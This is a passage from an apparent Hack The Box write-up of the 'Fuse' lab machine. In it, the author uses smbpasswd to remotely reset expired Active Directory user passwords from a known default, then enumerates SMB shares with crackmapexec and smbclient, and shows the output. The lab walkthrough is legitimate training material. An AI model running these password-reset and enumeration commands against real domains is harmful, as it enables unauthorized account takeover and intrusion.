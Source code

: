 {% highlight sh %}
(echo Fabricorp01; echo ThanksF0rReading; echo ThanksF0rReading) | smbpasswd -s -r 10.10.10.193 -U bnielson
{% endhighlight %}

{% highlight sh %}
crackmapexec smb fuse -u bnielson -p 'ThanksF0rReading' --shares
{% endhighlight %}

{% highlight text %}
SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\bnielson:ThanksF0rReading 
SMB         10.10.10.193    445    FUSE             [+] Enumerated shares
SMB         10.10.10.193    445    FUSE             Share           Permissions     Remark
SMB         10.10.10.193    445    FUSE             -----           -----------     ------
SMB         10.10.10.193    445    FUSE             ADMIN$                          Remote Admin
SMB         10.10.10.193    445    FUSE             C$                              Default share
SMB         10.10.10.193    445    FUSE             HP-MFT01                        HP-MFT01
SMB         10.10.10.193    445    FUSE             IPC$                            Remote IPC
SMB         10.10.10.193    445    FUSE             NETLOGON        READ            Logon server share 
SMB         10.10.10.193    445    FUSE             print$          READ            Printer Drivers
SMB         10.10.10.193    445    FUSE             SYSVOL          READ            Logon server share 
{% endhighlight %}

It works ! We have now access to the shares but after a few minutes, the password is being reset and I can't access to the shares anymore. Maybe I should try another user. Let's try with tlavel and bhult.

The same problem happens !

Some kind of process resets all the passwords after one or two minutes, so I guess we just need to be quick to connect to smb. Also, we need to put a different password every time we change it because the system keeps track of the passwords.

{% highlight sh %}
(echo Fabricorp01; echo ThanksF0rReading1111; echo ThanksF0rReading1111) | smbpasswd -s -r 10.10.10.193 -U tlavel
{% endhighlight %}

{% highlight sh %}
smbpasswd -r 10.10.10.193 -U bnielson
{% endhighlight %}

{% highlight sh %}
smbclient -U 'tlavel' //10.10.10.193/SYSVOL
{% endhighlight %}


After a bit of boring smb enumeration, I didn't find anything very useful so I'm gonna move on with rpc and see what we'll get. 


{% highlight sh %}
(echo Fabricorp01; echo ThanksF0rReading222; echo ThanksF0rReading222) | smbpasswd -s -r 10.10.10.193 -U tlavel
{% endhighlight %}
